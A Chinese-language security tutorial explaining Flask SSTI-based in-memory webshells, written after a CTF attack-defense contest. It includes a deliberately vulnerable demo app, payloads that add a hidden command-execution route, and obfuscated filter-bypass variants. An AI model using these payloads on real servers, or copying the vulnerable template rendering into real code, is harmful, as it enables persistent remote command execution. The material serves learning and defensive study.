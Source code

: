 # Python 内存马
Author: H3rmesk1t

## 前言
打安洵杯线下的时候有一道`Python`的`SSTI`模板注入的`AWD`题目, 由于之前没有怎么接触过关于`Python`的攻防点, 一度被别人种了`Python 内存马`都还没发现, 等比赛中断发现修补后的题目被打进来后, 查看流量记录才意识到攻击者前面是用的`Flask`内存马打的, 之前看过大概的思路却鸽了一直没学, 这里暂且记录一下相关知识点.

## 概念
常用的`Python`框架有`Django`、`Flask`, 这两者都可能存在`SSTI`漏洞. `Python 内存马`利用`Flask`框架中`SSTI`注入来实现, `Flask`框架中在`web`应用模板渲染的过程中用到`render_template_string`进行渲染, 但未对用户传输的代码进行过滤导致用户可以通过注入恶意代码来实现`Python`内存马的注入.

## Flask 请求上下文管理机制
当网页请求进入`Flask`时, 会实例化一个`Request Context`. 在`Python`中分出了两种上下文: 请求上下文(request context)、应用上下文(session context). 一个请求上下文中封装了请求的信息, 而上下文的结构是运用了一个`Stack`的栈结构, 也就是说它拥有一个栈所拥有的全部特性. `request context`实例化后会被`push`到栈`_request_ctx_stack`中, 基于此特性便可以通过获取栈顶元素的方法来获取当前的请求.

## 漏洞环境
先用`Flask`编写一个`SSTI-Demo`:

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route('/')
def hello_world():  # put application's code here
    person = 'knave'
    if request.args.get('name'):
        person = request.args.get('name')
    template = '<h1>Hi, %s.</h1>' % person
    return render_template_string(template)


if __name__ == '__main__':
    app.run()
```

原始`Flask`内存马`Payload`:

```python
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```

命令执行结果:

![](./images/2.png)

![](./images/1.png)

## Payload 分析
将前面的`Payload`拆开来, 逐层分析.

```python
url_for.__globals__['__builtins__']['eval'](
    "app.add_url_rule(
        '/shell', 
        'shell', 
        lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
    )",
    {
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    }
)
```

对于`url_for.__globals__['__builtins__']['eval']`这一截`Payload`, `url_for`是`Flask`的一个内置函数, 通过`Flask`内置函数可以调用其`__globals__`属性, 该特殊属性能够返回函数所在模块命名空间的所有变量, 其中包含了很多已经引入的`modules`, 可以看到这里是支持`__builtins__`的.

![](./images/3.png)

![](./images/4.png)

在`__builtins__`模块中, `Python`在启动时就直接为我们导入了很多内建函数. 准确的说, `Python`在启动时会首先加载内建名称空间, 内建名称空间中有许多名字到对象之间的映射, 这些名字就是内建函数的名称, 对象就是这些内建函数对象. 可以看到, 在`__builtins__`模块的内建函数中是存在`eval`、`exec`等命令执行函数的.

![](./images/5.png)

```python
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FileExistsError', 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '_', '__build_class__', '__debug__', '__doc__', '__import__', '__loader__', '__name__', '__package__', '__spec__', 'abs', 'all', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
```

由于存在命令执行函数, 因此我们就可以直接调用命令执行函数来执行危险操作, `Exploit`如下:

```python
{{url_for.__globals__['__builtins__']['eval']("__import__('os').system('open -a Calculator')")}}
```

![](./images/6.png)

接着再来看看`app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())`这一截`Payload`. 这部分是动态添加了一条路由, 而处理该路由的函数是个由`lambda`关键字定义的匿名函数.

在`Flask`中注册路由的时候是添加的`@app.route()`装饰器来实现的, 跟进查看其源码实现, 发现其调用了`add_url_rule`函数来添加路由.

![](./images/7.png)

跟进`add_url_rule`函数, 其参数说明如下:
 - rule: 函数对应的`URL`规则, 满足条件和`app.route`的第一个参数一样, 必须以`/`开头.
 - endpoint: 端点, 即在使用`url_for`进行反转的时候, 这里传入的第一个参数就是`endpoint`对应的值, 这个值也可以不指定, 默认就会使用函数的名字作为`endpoint`的值.
 - view_func: `URL`对应的函数, 这里只需写函数名字而不用加括号.
 - provide_automatic_options: 控制是否应自动添加选项方法.
 - options: 要转发到基础规则对象的选项.

![](./images/8.png)

`lambda`即匿名函数, `Payload`中`add_url_rule`函数的第三个参数定义了一个`lambda`匿名函数, 其中通过`os`库的`popen`函数执行从`Web`请求中获取的`cmd`参数值并返回结果, 其中该参数值默认为`whoami`.

再来看看`'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']}`这一截`Payload`. `_request_ctx_stack`是`Flask`的一个全局变量, 是一个`LocalStack`实例, 这里的`_request_ctx_stack`即上文中提到的`Flask 请求上下文管理机制`中的`_request_ctx_stack`. `app`也是`Flask`的一个全局变量, 这里即获取当前的`app`.

到此, 大致逻辑基本就梳理清晰了, `eval`函数的功能即动态创建一条路由, 并在后面指明了所需变量的全局命名空间, 保证`app`和`_request_ctx_stack`都可以被找到.

## ByPass
在实际应用中往往都存在过滤, 因此了解如何绕过还是必要的.
 - `url_for`可替换为`get_flashed_messages`或者`request.__init__`或者`request.application`.
 - 代码执行函数替换, 如`exec`等替换`eval`.
 - 字符串可采用拼接方式, 如`['__builtins__']['eval']`变为`['__bui'+'ltins__']['ev'+'al']`.
 - `__globals__`可用`__getattribute__('__globa'+'ls__')`替换.
 - `[]`可用`.__getitem__()`或`.pop()`替换.
 - 过滤`{{`或者`}}`, 可以使用`{%`或者`%}`绕过, `{%%}`中间可以执行`if`语句, 利用这一点可以进行类似盲注的操作或者外带代码执行结果.
 - 过滤`_`可以用编码绕过, 如`__class__`替换成`\x5f\x5fclass\x5f\x5f`, 还可以用`dir(0)[0][0]`或者`request['args']`或者`request['values']`绕过.
 - 过滤了`.`可以采用`attr()`或`[]`绕过.
 - 其它的手法参考`SSTI`绕过过滤的方法即可...

这里给出两个变形`Payload`:
 - 原`Payload`

```python
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/h3rmesk1t', 'h3rmesk1t', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('shell')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```

 - 变形`Payload-1`

```python
request.application.__self__._get_data_for_json.__getattribute__('__globa'+'ls__').__getitem__('__bui'+'ltins__').__getitem__('ex'+'ec')("app.add_url_rule('/h3rmesk1t', 'h3rmesk1t', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('shell', 'calc')).read())",{'_request_ct'+'x_stack':get_flashed_messages.__getattribute__('__globa'+'ls__').pop('_request_'+'ctx_stack'),'app':get_flashed_messages.__getattribute__('__globa'+'ls__').pop('curre'+'nt_app')})
```

 - 变形`Payload-2`

```python
get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("__builtins__")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u0065\u0076\u0061\u006c")("app.add_ur"+"l_rule('/h3rmesk1t', 'h3rmesk1t', la"+"mbda :__imp"+"ort__('o"+"s').po"+"pen(_request_c"+"tx_stack.to"+"p.re"+"quest.args.get('shell')).re"+"ad())",{'\u005f\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u005f\u0063\u0074\u0078\u005f\u0073\u0074\u0061\u0063\u006b':get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u005f\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u005f\u0063\u0074\u0078\u005f\u0073\u0074\u0061\u0063\u006b"),'app':get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u0063\u0075\u0072\u0072\u0065\u006e\u0074\u005f\u0061\u0070\u0070")})
```

![](./images/10.png)

## 参考
 - [浅析Python Flask内存马](https://www.mi1k7ea.com/2021/04/07/%E6%B5%85%E6%9E%90Python-Flask%E5%86%85%E5%AD%98%E9%A9%AC/)